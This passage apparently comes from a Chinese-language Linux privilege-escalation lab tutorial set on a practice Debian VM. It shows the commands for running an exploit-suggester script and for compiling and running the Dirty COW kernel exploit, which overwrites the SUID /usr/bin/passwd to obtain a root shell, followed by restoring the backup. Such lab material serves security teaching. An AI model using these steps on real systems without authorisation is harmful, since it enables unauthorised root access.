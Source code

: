 ```shell
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
```

这个知名的 Linux 内核漏洞利用称为 `Dirty COW` 。`Dirty COW` 的漏洞代码可以在 `/home/user/tools/kernel-exploits/dirtycow/c0w.c` 找到。它会用一个产生 shell 的文件替换 SUID 文件 `/usr/bin/passwd`（ `/usr/bin/passwd` 的备份存放在 /tmp/bak）。

编译这段代码并运行它（请注意，这可能需要几分钟才能完成）：

```shell
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
```

漏洞利用完成后，运行 `/usr/bin/passwd` 来获取一个 root shell：

```shell
/usr/bin/passwd
```

在继续之前，请记得恢复原始的 `/usr/bin/passwd` 文件并退出 root shell！

```shell
mv /tmp/bak /usr/bin/passwd
exit
```

## 特权升级脚本

在 Linux 上编写了几个工具，可以帮助发现潜在的权限提升漏洞。其中三个工具已经包含在 Debian 虚拟机的以下目录中：`/home/user/tools/privesc-scripts`
